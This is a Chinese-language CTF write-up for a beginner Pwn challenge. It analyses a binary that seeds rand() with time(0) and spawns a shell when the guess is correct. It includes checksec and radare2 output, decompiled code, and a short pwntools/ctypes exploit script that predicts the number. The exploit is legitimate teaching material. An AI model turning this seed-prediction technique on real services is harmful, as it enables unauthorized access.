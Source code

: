 ```yaml
---
title: 猜数字
author: 13m0n4de
difficulty: Trivial
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/srand:latest
port: 70
writeup_author:
tags:
  - pseudo_random
reference:
---
```


# 猜数字

## 题目描述

## 题目解析

从这一题开始，Pwn 分类就开始涉及到附件程序的分析利用环节了。

### 文件信息

首先使用 `file` 命令查看文件类型：

```
$ file game
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c1cc42f54892f239643b27a2ee4a784c0b0c0c46, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件 (`ELF 64-bit LSB executable`)，动态链接 (`dynamically linked`)，没有去除符号 (`not stripped`)。

查看保护机制：

```
$ pwn checksec game
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

开启了 NX 保护、Canary 保护。

### 程序分析

使用反编译工具（IDA、Radare2 等，以下使用 Radare2 举例）进行分析：

```
$ r2 -AA game
```

列出所有函数：

```
[0x00401170]> afl
0x004010d0    1     11 sym.imp.putchar
0x004010e0    1     11 sym.imp.puts
0x004010f0    1     11 sym.imp.__stack_chk_fail
0x00401100    1     11 sym.imp.system
0x00401110    1     11 sym.imp.printf
0x00401120    1     11 sym.imp.srand
0x00401130    1     11 sym.imp.time
0x00401140    1     11 sym.imp.setvbuf
0x00401150    1     11 sym.imp.__isoc99_scanf
0x00401160    1     11 sym.imp.rand
0x00401170    1     37 entry0
0x004011b0    4     31 sym.deregister_tm_clones
0x004011e0    4     49 sym.register_tm_clones
0x00401220    3     32 entry.fini0
0x00401250    1      6 entry.init0
0x0040147c    1     13 sym._fini
0x004012bb    1    106 sym.banner
0x00401256    1    101 sym.init
0x004011a0    1      5 sym._dl_relocate_static_pie
0x0040143b    1     62 main
0x00401325    8    278 sym.game
0x00401000    3     27 sym._init
0x00401030    2     28 fcn.00401030
0x00401040    1     15 fcn.00401040
0x00401050    1     15 fcn.00401050
0x00401060    1     15 fcn.00401060
0x00401070    1     15 fcn.00401070
0x00401080    1     15 fcn.00401080
0x00401090    1     15 fcn.00401090
0x004010a0    1     15 fcn.004010a0
0x004010b0    1     15 fcn.004010b0
0x004010c0    1     15 fcn.004010c0
```

通过函数列表可以看到一些关键函数：

- `main`：程序入口点
- `init`：程序初始化
- `banner`：打印比赛信息
- `game`：实现主要游戏逻辑

其中 `init` 函数的作用是禁用标准输入输出的缓冲区，这是 CTF 中 Pwn 题的常见做法：

```c
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stderr, NULL, _IONBF, 0);
```

进入主函数 `main` 中，查看反编译伪代码（`pdg` 命令需要安装 [r2ghidra](https://github.com/radareorg/r2ghidra)）：

```c
[0x0040143b]> pdg

ulong main(void)

{
    uint uVar1;
    uchar *puVar2;
    ulong uStack_10;

    uStack_10 = 0x40144d;
    uVar1 = sym.imp.time(0);
    *(*0x20 + -0x10) = 0x401454;
    sym.imp.srand(uVar1);
    puVar2 = *0x20 + -8;
    *(*0x20 + -8 + -8) = 0x40145e;
    sym.init();
    *(puVar2 + -8) = 0x401468;
    sym.banner();
    *(puVar2 + -8) = 0x401472;
    sym.game();
    return 0;
}
```

`main` 函数在一开始调用了 [time](https://man7.org/linux/man-pages/man2/time.2.html) 函数，返回当前时间戳 (Timestamp)，然后将该时间戳作为随机数种子传入 `srand` 函数，进行随机数播种。

`game` 函数包含了程序的核心逻辑，首先使用 `rand()` 生成随机数，并进行一系列运算：

```c
iVar1 = sym.imp.rand();
iStack_14 = (iVar1 - ((iVar1 / 99999 + (iVar1 >> 0x1f)) - (iVar1 >> 0x1f)) * 99999) + 1;
```

这些运算的目的是将随机数限制在 1-99999 的范围内，相当于：

```c
random_number = rand() % 99999 + 1;
```

接着程序会输出提示信息，告诉用户范围并要求输入：

```c
printf("I've thought of a number between 1 and %d.\n", 99999);
puts("You have only one chance to guess this number. Good luck!\n");
printf("Please enter your guess: ");
```

用户输入后会进行判断：

```c
iVar1 = sym.imp.__isoc99_scanf(0x402155, &stack0xffffffffffffffe8);
if (iVar1 == 1) {
    if (iStack_14 == iStack_18) {
        // 猜对了，获得 shell
        printf("\nCongratulations! You've guessed the number %d!\n", iVar1);
        system("/bin/sh");
    } else {
        // 猜错了，游戏结束
        printf("\nSorry, you didn't guess correctly. The right number was %d.\n", iVar1);
    }
} else {
    // 输入无效，游戏结束
    puts("Invalid input, game over.");
}
```

### 漏洞分析

这个程序的主要问题出在随机数生成的可预测性上。具体来说：

1. 随机数种子的问题
    - 程序使用 `time(0)` 获取的时间戳作为种子
    - 时间戳精度仅为秒级
    - 服务器和用户的系统时间差异通常很小
1. 随机数生成的特性
    - C 语言的 `rand()` 是伪随机数生成器
    - 使用相同的种子，必然产生相同的随机数序列

这两个特点结合起来导致：

- 攻击者可以通过本地时间推测服务器的随机数种子
- 使用相同种子即可生成相同的随机数，完成随机数预测

利用程序 [exp.py](./writeup/exp.py)，使用了 `ctypes` 库加载系统 libc，并调用 libc 中的函数：

```python
from pwn import *
from ctypes import cdll

context.log_level = "debug"

libc = cdll.LoadLibrary("libc.so.6")

io = process("../attachments/game")

libc.srand(libc.time(0))
number = libc.rand() % 99999 + 1

io.sendlineafter(b"Please enter your guess: ", str(number).encode())
io.interactive()
```

另一种解决方案是编写 C 程序复现目标程序的随机数生成过程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
    srand(time(0));
    printf("%d\n", rand() % 99999 + 1);
    return 0;
}
```

编译为可执行文件后，在 Python 中通过 `os.popen().read()` 执行并获取结果：

```python
import os

number = int(os.popen("./predict").read())
io.sendlineafter(b"Please enter your guess: ", str(number).encode())
```

需要注意的是，C 语言的随机数生成依赖于 libc 的具体实现。虽然靶机使用的是 Ubuntu 20.04，但大多数 Linux 发行版的 libc 实现区别不大，都可以完成预测。
